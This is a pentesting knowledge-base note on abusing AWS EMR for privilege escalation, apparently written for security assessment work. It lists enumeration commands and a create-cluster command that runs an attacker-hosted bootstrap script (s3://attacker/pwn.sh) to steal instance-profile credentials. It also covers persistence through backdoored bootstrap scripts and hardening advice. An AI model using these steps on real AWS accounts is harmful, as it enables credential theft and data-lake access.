

# 25 - AWS EMR Exploitation

## 1. Executive Summary

EMR (Elastic MapReduce) runs managed Hadoop/Spark clusters of EC2 instances — each carrying an **EC2 instance profile** plus an EMR **service role**, and processing large datasets. Privesc: `elasticmapreduce:RunJobFlow` **+ `iam:PassRole`** launches a cluster with a chosen high-priv instance profile, then a bootstrap action or step runs your code on nodes → steal those creds. **EMR Notebooks / EMR Studio editors** (`CreateEditor`/`OpenEditorInConsole`) give interactive code execution on the cluster. The cluster also reads/writes big S3 datasets via its role.

## 2. Service Overview & Architecture

A **cluster (job flow)** = master + core/task EC2 nodes running Hadoop/Spark. Roles: **EMR service role**, **EC2 instance profile** (`EMR_EC2_DefaultRole`-style), optional **autoscaling role**. **Steps** and **bootstrap actions** run commands on nodes. **EMR Notebooks/Studio** provide Jupyter-style editors that execute on the cluster. Data lives in S3/HDFS.

## 3. Enumeration

```bash
aws emr list-clusters --active
aws emr describe-cluster --cluster-id <id>          # roles, instance profile
aws emr list-instances --cluster-id <id>
aws emr list-steps --cluster-id <id>
```

## 4. Privilege Escalation / Abuse Vectors

- **`elasticmapreduce:RunJobFlow` + `iam:PassRole`** — launch a cluster with a high-priv instance profile + a bootstrap action running your script → IMDS cred theft on nodes.
  ```bash
  aws emr create-cluster --release-label emr-7.0.0 --instance-type m5.xlarge --instance-count 1 \
    --service-role <svc-role> --ec2-attributes InstanceProfile=<priv-profile> \
    --bootstrap-actions Path=s3://attacker/pwn.sh
  ```
- **`AddJobFlowSteps`** — add a step (e.g. `command-runner.jar`) running arbitrary commands on an existing cluster.
- **`CreateEditor`/`OpenEditorInConsole`** (EMR Notebooks/Studio) — interactive code exec on the cluster as its role.
- **Cluster IAM role/instance profile** — read/write the data-lake S3 buckets; often broad → pivot.
- **Master node access** — if SG/SSH key reachable, log into master and use node creds directly.

## 5. Mermaid Attack Flow



## 6. Persistence
- Long-running cluster with attacker steps/bootstrap.
- Backdoored bootstrap script in S3 reused by future clusters.

## 7. Post-Exploitation / Data Access
- Instance-profile + service-role creds → pivot.
- Big-data S3/HDFS datasets (PII, logs, analytics).

## 8. Detection & Hardening
1. Least-priv EMR_EC2 instance profile + service role; restrict `RunJobFlow`/`AddJobFlowSteps` + `iam:PassRole`.
2. Lock bootstrap S3 paths; tight master/node SGs; enforce IMDSv2.
3. Alert on new clusters/steps/editors and unusual S3 access by EMR roles.

## 9. Chaining / Related Notes
- IMDS theft: **[[04 - EC2 Exploitation]]**. On-prem Hadoop layer: **[[71 - Hadoop (Ports 50070-9870) Pentesting]]**.
- Data lake: **[[03 - S3 Exploitation]]**. PassRole: **[[01 - IAM Exploitation]]**.

## 10. Tools
`aws emr`, `pacu`, `ScoutSuite`.
